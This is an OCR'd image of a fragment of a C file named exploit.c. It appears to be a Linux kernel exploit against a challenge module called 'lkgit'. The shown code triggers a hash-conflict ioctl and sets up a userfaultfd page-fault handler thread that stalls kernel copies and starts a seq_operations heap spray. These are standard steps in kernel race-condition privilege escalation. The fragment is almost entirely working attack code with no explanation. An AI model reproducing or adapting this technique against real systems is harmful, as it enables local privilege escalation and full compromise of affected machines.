 ```exploit.c
  return hash;
}

void print_log(log_object *log) {
  printf("HASH   : %s\n", hash_to_string(log->hash));
  printf("MESSAGE: %s\n", log->message);
  printf("CONTENT: \n%s\n", log->content);
}
/** END of module specific utils **/


void *conflict_during_fault(char *content) {
  // commit with conflict of hash
  char content_buf[FILE_MAXSZ] = {0};
  char msg_buf[MESSAGE_MAXSZ] = {0};
  memcpy(content_buf, content, FILE_MAXSZ); // hash became 00000000000...
  hash_object req = {
      .content = content_buf,
      .message = content_buf,
  };
  printf("[.] committing with conflict...: %s\n", content);
  assert(ioctl(lkgit_fd, LKGIT_HASH_OBJECT, &req) == 0);
  printf("[+] hash: %s\n", hash_to_string(req.hash));
}

// userfaultfd-utils
static void* fault_handler_thread(void *arg)
{
  puts("[+] entered fault_handler_thread");

  static struct uffd_msg msg;   // data read from userfaultfd
  //struct uffdio_copy uffdio_copy;
  struct uffdio_range uffdio_range;
  struct uffdio_copy uffdio_copy;
  long uffd = (long)arg;        // userfaultfd file descriptor
  struct pollfd pollfd;         //
  int nready;                   // number of polled events

  // set poll information
  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  // wait for poll
  puts("[+] polling...");
  while(poll(&pollfd, 1, -1) > 0){
    if(pollfd.revents & POLLERR || pollfd.revents & POLLHUP)
      errExit("poll");

    // read an event
    if(read(uffd, &msg, sizeof(msg)) == 0)
      errExit("read");

    if(msg.event != UFFD_EVENT_PAGEFAULT)
      errExit("unexpected pagefault");

    printf("[!] page fault: %p\n", (void*)msg.arg.pagefault.address);

    // Now, another thread is halting. Do my business.
    char content_buf[FILE_MAXSZ] = {0};
    if (target_addr == (void*)NO_FAULT_ADDR) {
      puts("[+] first: seq_operations");
      memset(content_buf, 'A', FILE_MAXSZ);
      conflict_during_fault(content_buf);
```